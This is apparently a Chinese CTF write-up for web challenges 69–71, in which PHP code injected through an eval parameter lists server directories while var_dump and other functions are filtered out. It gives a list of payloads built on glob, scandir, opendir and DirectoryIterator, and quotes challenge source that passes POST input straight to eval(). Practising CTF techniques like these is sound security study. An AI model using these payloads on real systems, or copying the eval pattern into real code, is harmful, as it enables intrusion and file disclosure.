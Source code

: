 #### 69

打开同上

发现`var_dump`也被ban了，别人wp总结的几种方式，包含了上面提到的yu师傅和y4师傅的办法

```php
print_r(glob("*")); // 列当前目录
print_r(glob("/*")); // 列根目录
print_r(scandir("."));
print_r(scandir("/"));
$d=opendir(".");while(false!==($f=readdir($d))){echo"$f\n";}
$d=dir(".");while(false!==($f=$d->read())){echo$f."\n";}
$a=glob("/*");foreach($a as $value){echo $value."   ";}
$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

前四种被ban了，后四个都可以，原理全是遍历数组的办法读取

> **glob**
>
> 寻找与模式匹配的文件路径
>
> `*`匹配零个或多个字符。  
> `?` - 只匹配单个字符（任意字符）。  
> `[...]` - 匹配一组字符中的一个字符。如果第一个字符是 !，则为否定模式，即匹配不在这组字符中的任意字
> `\` - 只要没有使用 GLOB_NOESCAPE 标记，该字符会转义后面的字符。 
>
> 例
>
> ```php
> <?php
> foreach (glob("*.txt") as $filename) {
>     echo "$filename size " . filesize($filename) . "\n";
> }
> ?> 
> 返回类似
> funclist.txt size 44686
> funcsummary.txt size 267625
> quickref.txt size 137820
> ```

自己发现了一种方法  `c=echo implode(scandir('/'));`

**implode — 用字符串连接数组元素** 然后就可以echo了

#### 70

同上

#### 71

```php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}
```
